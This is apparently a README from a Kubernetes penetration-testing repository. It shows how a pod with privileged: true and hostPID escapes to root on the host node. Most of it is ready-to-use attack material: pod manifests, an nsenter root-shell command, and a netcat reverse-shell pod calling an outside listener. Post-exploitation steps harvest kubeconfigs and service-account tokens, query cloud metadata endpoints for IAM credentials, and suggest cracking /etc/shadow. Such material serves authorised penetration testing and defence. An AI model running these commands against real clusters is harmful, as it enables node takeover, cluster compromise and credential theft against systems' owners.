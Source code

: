 # You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides a path to cluster-admin. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid
  labels: 
    app: priv-and-hostpid
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]    
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-priv-and-hostpid.yaml](pod-priv-and-hostpid.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-and-hostpid.yaml  
```
#### Option 2: Create pod from github hosted yaml
```
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-and-hostpid.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-and-hostpid -- bash
```

#### Use nsenter to gain full root access on the node
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed-revshell
  labels:
    app: everything-allowed-revshell
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-priv-and-hostpid-revshell.yaml](pod-priv-and-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3112
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3112" 
envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3112
Listening on 0.0.0.0 3112
Connection received on 10.0.0.162 42035
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there

Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
